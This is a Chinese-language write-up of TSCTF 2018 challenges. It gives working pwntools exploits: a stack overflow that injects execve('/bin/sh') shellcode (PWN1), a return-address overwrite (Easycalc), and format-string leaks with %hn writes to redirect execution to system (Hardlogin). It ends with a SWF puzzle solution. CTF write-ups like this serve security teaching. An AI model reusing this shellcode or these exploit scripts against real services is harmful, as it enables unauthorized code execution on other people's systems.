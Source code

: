 # TSCTF 2018 Write up

## PWN1

这道题从ida里可以看到buff存在溢出，可以覆盖掉v3(存储金额的变量)以及main函数返回值。而且题目主动泄露了buff所在的地址。

检查文件的保护机制：

```shell
	Arch:     i386-32-little
	RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

什么都没开 :D

于是就可以覆盖掉返回值，执行放在栈上的shellcode。由于覆盖返回值难免会覆盖掉v3所以就在第二次读入的时候放入shellcode，shellcode的地址可以直接用泄露出来的地址。

给大佬献上exp：

```python
from pwn import *
debug = 0

if debug:
	context.log_level='debug'
	p = process('./main')
	gdb.attach(p,'b *0x804868f')
else:
    p = remote('10.112.108.77',2333)

p.recvuntil('please input your name:')
p.sendline('vivi')
p.recvuntil('Hello vivi\n')
p.recvline()
r=p.recvline()
addr = int(r[25:32],16)
#print addr
p.recvline()
p.recvuntil('Do you want to change your name?(1(yes) or 2(no)):')
p.sendline('1            '+p32(addr))
p.recvuntil('you have enough money,please input your new name:')
p.send('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')
p.interactive()
```

## Easycalc

这道题刚扔进ida就看到了一个叫hackhere的函数，仔细一看是弹一个shell，那八成是将返回值覆盖为此函数地址了。查看main函数有一个change number的功能而且没有检查index的大小，可以通过这个来直接修改返回值。查看文件保护措施：

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看到开了canary，但是应该只要不是异或型的就没关系。试了一下，发现的确没有检测到。

这道题没写exp，直接手输的index和number。

## Hardlogin

刚开始看到这道题还有一个web页面还以为是在逗我，没想到真的用上了hhh

首先这是一道blind pwn，想起来在tsctf新生赛的时候有一道easylogin很类似，于是就直接用了这道题的官方write up来dump二进制文件，然后放到ida里，发现有一个检查password，password是随机生成的，地址固定，可以直接通过格式化字符串读取。先用下面这个脚本看看执行 ls -al的效果。

```Python
from pwn import *
context.log_level='debug'

def leak(io):
    addr = 0x804a04c
    payload =  "%13$s|||" + p32(addr)
    io.sendlineafter('Username:',payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
	io.sendlineafter("Password:",data);
    io.recvall()

if __name__ == '__main__':
    ip = '10.112.108.77'
    port = 2336
    io = remote(ip,port)
    leak(io)
```

结果如下：

```shell
'total 1764\n'
    'drwxr-xr-x 2 root root          4096 May 23 16:29 .\n'
    'drwxr-xr-x 8 root root          4096 May 23 16:29 ..\n'
    '-rwxr-x--- 1 root hard_login      39 May 23 16:08 flag\n'
    '-rwxr-xr-x 1 root hard_login    7780 May 23 16:08 hard_login.bak\n'
    '-rwxr-xr-x 1 root root           289 May 23 16:08 index.html\n'
    '-rw-r--r-- 1 root root           612 May 23 16:29 index.nginx-debian.html\n'
```

看到index.html才知道原来是从web上下载二进制文件和libc呀。

下载完了之后开始天真地疯狂修改GOT表。。然后每次都是SIGSEGV，还以为是我写错了于是疯狂检查。直到查看保护机制：

```shell
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

这个full relro是什么鬼，查了之后发现是防止修改got表的(´ﾟдﾟ`)。。

所以还能想到的就是覆盖返回值了。将main函数返回值覆盖为system，然后在返回值所在地址加八的地方放入/bin/sh的地址。不过返回值所在地址需要先泄漏才可以。/bin/sh我是放在了username里面，但是具体哪个位置不会被之后的程序修改还需要自己试一下。整个exp逻辑如下，先泄漏printf地址，计算system地址；泄漏返回值地址；覆盖返回值地址；覆盖参数地址；放入参数以及通过password的check从而返回。

```python
from pwn import *
context.log_level='debug'
binary = ELF("./hard_login.bak")
printf_got = binary.got["printf"]
libc = ELF("./libc-2.23.so.bak")
#libc = ELF("/lib32/libc.so.6")
libc_sys = libc.symbols["system"]
libc_printf = libc.symbols["printf"]
libc_puts = libc.symbols["puts"]

def unsigned(n):
    return n & 0xFFFFFFFF

def leak(io):
    #----------------------------get sys addr----------------------
    length = 0
    addr = printf_got
    payload =  "%13$s|||" + p32(addr)
    io.sendlineafter('Username:',payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    sys_addr = u32(data[0:4]) + libc_sys - libc_printf
    print hex(sys_addr)
    io.sendlineafter('Password:','xx')
    #----------------------------get ret addr----------------------
    payload = "%35$d|||"
    io.sendlineafter('Username:',payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    data = unsigned(int(data))
    ret_addr = data + 0x34
    print ret_addr
    io.sendlineafter('Password:','xx')
    
    #----------------------------cover ret-------------------------
    payload = p32(ret_addr) + p32(ret_addr + 2) + "%" + str((sys_addr & 0x0000ffff) - 8 ) +"c%11$hn" + "%" + str(((sys_addr & 0xffff0000) >> 16) - (sys_addr & 0x0000ffff) + 65536) + "c%12$hn"
    io.sendlineafter('Username:',payload)
    io.sendlineafter('Password:','ll')

    sh_addr = ret_addr - 0xd0 + 36
    payload = p32(ret_addr + 8) + p32(ret_addr + 10) + "%" + str((sh_addr & 0x0000ffff) - 8 ) +"c%11$hn" + "%" + str(((sh_addr & 0xffff0000) >> 16) - (sh_addr & 0x0000ffff) + 65536) + "c%12$hn"
    io.sendlineafter('Username:',payload)
    io.sendlineafter('Password:','ll')
    #----------------------------retern----------------------------
    addr = 0x804a04c
    payload =  "%13$s|||" + p32(addr) + "ABCDEFGHIJKLMNOPQRSTUVWX/bin/sh"
    io.recvuntil('Username:')
    io.sendline(payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    io.sendlineafter("Password:",data)
    io.interactive()
if __name__ == '__main__':
    ip = '10.112.108.77'
    port = 2336
    io = remote(ip,port)
    #io = process('./hard_login.bak')
    #gdb.attach(io,'b *0x80487FF')
    leak(io)
```

## Zhiyu的视频

首先在binwalk，strings无果之后，在网上查看到了一个swf[反编译的工具](https://www.52pojie.cn/thread-501799-1-1.html)，看到了flash在时间和空间上的隐藏，但是经过客服提醒这个并没有什么关系，然后hint里面提到了元件，所以就通过反编译工具查看元件部分的定义，看到有一个元件的定义部分出奇地大，本来以为隐藏了另一个文件，但是没有看到什么异样。然后偶然看到这个元件的图形，是一串string。猜测这串string解出来是得到数字的汉字。结合第三个hint，尝试更换不同的输入法，使用五笔输入法的时候，发现可以打出来数字，但是打印到七个汉字的时候出现了非数字，经过客服提示这应该是一句话，于是直接在百度搜索框输入，输入到一半这句话就出来了：一三五七八十腊，三十一天永不差。于是得到flag:TSCTF{13578101231}  //12不要落下(ㆆᴗㆆ)